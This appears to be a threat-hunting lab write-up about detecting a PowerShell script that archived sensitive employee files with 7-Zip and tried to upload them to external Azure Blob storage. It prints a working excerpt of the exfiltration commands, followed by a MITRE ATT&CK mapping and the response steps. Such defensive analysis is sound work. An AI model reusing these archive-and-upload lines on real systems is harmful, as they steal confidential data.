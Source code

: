 This query identified a PowerShell script named exfiltrate_data.ps1 executed under the System account, which silently installed 7-Zip and then created the archive. The log also showed a follow-up PowerShell command initiating a network connection immediately after compression, a strong indicator of data exfiltration.

Upon reviewing the VM's filesystem, I located the script at C:\ProgramData\exfiltratedata.ps1. Its content confirmed automated behavior: downloading, archiving, and attempting to upload files to an external endpoint.

<InlineGallery images={data-exfiltration-detection-analysis} title="Data Exfiltration Detection and Analysis Process" />

### Snippet of the Observed PowerShell Script

Simplified excerpt of ExfiltrateData.ps1

-------------------------------------------------------
powershell
Start-Process "7z.exe" -ArgumentList "a", "C:\ProgramData\Backup\employee_data.zip", "C:\SensitiveFiles*"
Invoke-WebRequest -Uri "https://storageaccount.blob.core.windows.net/container/employee_data.zip" -Method Put -InFile "C:\ProgramData\Backup\employee_data.zip"
-------------------------------------------------------

The script structure and timing aligned perfectly with the MDE logs, validating that a scripted 7-Zip operation had occurred. While no explicit network event confirmed the upload due to logging limitations, the sequence strongly suggested an attempted data transfer.

## Response and MITRE ATT&CK Mapping

This activity mapped directly to several tactics within the MITRE ATT&CK Framework:

1. **T1059.001 – PowerShell (Execution)**: PowerShell was used to install and execute the archiving utility.
2. **T1560 – Archive Collected Data (Collection)**: 7-Zip was used to compress sensitive data.
3. **T1074 – Data Staged (Collection)**: Archives were staged locally in C:\ProgramData\Backup\.
4. **T1048 – Exfiltration Over Alternative Protocol (Exfiltration)**: The script attempted HTTP PUT operations to Azure Blob storage.
5. **T1082 – System Information Discovery (Discovery)**: System metadata was queried before execution.

Upon discovering the activity, I isolated samson-windows- using Defender for Endpoint's "Isolate Device" feature to prevent further data loss. A subsequent malware scan returned no persistent threats; however, standard protocol would dictate re-imaging the endpoint for assurance.

## Documentation

Every step of this hunt should meticulously be documented from initial hypothesis through evidence gathering and correlation. All queries, findings, timestamps, and reasoning should be logged to ensure transparency and repeatability.

This approach mirrors a real-world SOC investigation, where maintaining a chronological record of queries and findings is crucial for post-incident reviews and audits. It also supports organizational learning by building an internal knowledge repository for future hunts.
